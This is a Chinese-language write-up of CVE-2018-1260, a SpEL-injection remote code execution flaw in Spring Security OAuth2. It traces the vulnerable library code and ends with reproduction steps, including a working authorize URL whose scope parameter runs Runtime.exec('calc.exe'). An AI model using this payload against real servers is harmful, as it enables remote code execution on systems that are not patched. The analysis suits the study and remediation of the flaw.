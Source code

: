 # CVE-2018-1260 Spring Security Oauth2 远程代码执行

### 一、漏洞简介

### 二、漏洞影响

* Spring Security OAuth 2.3 to 2.3.2
* Spring Security OAuth 2.2 to 2.2.1
* Spring Security OAuth 2.1 to 2.1.1
* Spring Security OAuth 2.0 to 2.0.14

### 三、复现过程

漏洞分析

先简要补充一下关于OAuth2.0的相关知识。

![](images/15893415857965.png)


以上图为例。当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

在获得access token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization code）、简化模式（implicit）、密码模式（resource owner password credentials）、客户端模式（client credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数scope，这个参数用于表示客户端申请的权限的范围。

，根据官方文档，在spring-security-oauth的默认配置中scope参数默认为空：


```bash
scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.
```

为明白起见，我们在demo中将其清楚写出：


```bash
clients.inMemory()
        .withClient("client")
        .authorizedGrantTypes("authorization_code")
        .scopes();
```

接着开始正式分析。当我们访问`http://localhost:8080/oauth/authorize`重定向至`http://localhost:8080/login`并完成login后程序流程到达
org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java，这里贴上部分代码：


```java
@RequestMapping(value = "/oauth/authorize")
public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
        SessionStatus sessionStatus, Principal principal) {

    // Pull out the authorization request first, using the OAuth2RequestFactory. All further logic should
    // query off of the authorization request instead of referring back to the parameters map. The contents of the
    // parameters map will be stored without change in the AuthorizationRequest object once it is created.
    AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

    try {
        ...
        // We intentionally only validate the parameters requested by the client (ignoring any data that may have
        // been added to the request by the manager).
        oauth2RequestValidator.validateScope(authorizationRequest, client);
        ...

        // Place auth request into the model so that it is stored in the session
        // for approveOrDeny to use. That way we make sure that auth request comes from the session,
        // so any auth request parameters passed to approveOrDeny will be ignored and retrieved from the session.
        model.put("authorizationRequest", authorizationRequest);

        return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

    }
    ...
```

第115行

![](images/15893416308571.png)


在执行完AuthorizationRequest authorizationRequest = ...后，authorizationRequest代表了要认证的请求，其中包含了众多参数

![](images/15893416382504.png)


在经过了对一些参数的处理，比如RedirectUri等，之后到达第156行：


```bash
// We intentionally only validate the parameters requested by the client (ignoring any data that may have
// been added to the request by the manager).
oauth2RequestValidator.validateScope(authorizationRequest, client);
```

在这里将对scope参数进行验证。跟入validateScope到org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:19


```bash
public class DefaultOAuth2RequestValidator implements OAuth2RequestValidator {

    public void validateScope(AuthorizationRequest authorizationRequest, ClientDetails client) throws InvalidScopeException {
        validateScope(authorizationRequest.getScope(), client.getScope());
    }
    ...
}
```

继续跟入validateScope，至 org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:28


```java
private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

    if (clientScopes != null && !clientScopes.isEmpty()) {
        for (String scope : requestScopes) {
            if (!clientScopes.contains(scope)) {
                throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
            }
        }
    }
    
    if (requestScopes.isEmpty()) {
        throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
    }
}
```

首先检查clientScopes，这个clientScopes即我们在前面configure中配置的.scopes();，倘若不为空，则进行白名单检查。举个例子，如果前面配置.scopes("chybeta");，则传入requestScopes必须为chybeta，否则会直接抛出异常Invalid scope:xxx。但由于此处查clientScopes为空值，则接下来仅仅做了requestScopes.isEmpty()的检查并且通过。

在完成了各项检查和配置后，在authorize函数的最后执行：


```bash
return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);
```

回想一下前面OAuth2.0的流程，在客户端请求授权（A），用户登陆认证（B）后，将会进行用户授权（C），这里即开始进行正式的授权阶段。跟入getUserApprovalPageResponse 至org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java:241：

![](images/15893416892150.png)


生成对应的model和view，之后将会forward到/oauth/confirm_access。为简单起见，我省略中间过程，直接定位到org/springframework/security/oauth2/provider/endpoint/WhitelabelApprovalEndpoint.java:20


```java
public class WhitelabelApprovalEndpoint {
@RequestMapping("/oauth/confirm_access")
public ModelAndView getAccessConfirmation(Map<String, Object> model, HttpServletRequest request) throws Exception {
String template = createTemplate(model, request);
if (request.getAttribute("_csrf") != null) {
model.put("_csrf", request.getAttribute("_csrf"));
}
return new ModelAndView(new SpelView(template), model);
}
...
}
跟入createTemplate，第29行：

protected String createTemplate(Map<String, Object> model, HttpServletRequest request) {
String template = TEMPLATE;
if (model.containsKey("scopes") || request.getAttribute("scopes") != null) {
template = template.replace("%scopes%", createScopes(model, request)).replace("%denial%", "");
}
...
return template;
}
```

跟入createScopes，第46行：

![](images/15893417094910.png)


这里获取到了scopes，并且通过for循环生成对应的builder，其实就是html和一些标签等，最后返回的即builder.toString(),其值如下:


```html
<ul><li><div>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>
```

createScopes结束后将会把上述builder.toString()拼接到template中。createTemplate结束后，在getAccessConfirmation的最后：


```bash
return new ModelAndView(new SpelView(template), model);
```

根据template生成对应的SpelView对象，这是其构造函数：

![](images/15893417368710.png)


此后在页面渲染的过程中，将会执行页面中的Spel表达式${T(java.lang.Runtime).getRuntime().exec("calc.exe")}从而造成代码执行。

![](images/15893417434311.png)


所以综上所述，这个任意代码执行的利用条件实在“苛刻”：

* 需要scopes没有配置白名单，否则直接Invalid scope:xxx。不过大部分OAuth都会限制授权的范围，即指定scopes。
* 使用了默认的Approval Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

### 漏洞复现

利用github上已有的demo：


```
git clone https://github.com/wanghongfei/spring-security-oauth2-example.git
```

确保导入的spring-security-oauth2为受影响版本，以这里为例为2.0.10

进入spring-security-oauth2-example，修改 cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java的第67行:


```bash
@Override
public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
   clients.inMemory()
            .withClient("client")
            .authorizedGrantTypes("authorization_code")
            .scopes();
}
```

根据[spring-security-oauth2-example](https://github.com/wanghongfei/spring-security-oauth2-example.git)创建对应的数据库等并修改AlanOAuthApplication中对应的mysql相关配置信息。

访问：


```bash
http://url:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

会重定向到login页面，随意输入username和password，点击login，触发payload。

![309fe027595247208a7ef064cbb826a9](images/309fe027595247208a7ef064cbb826a9.gif)
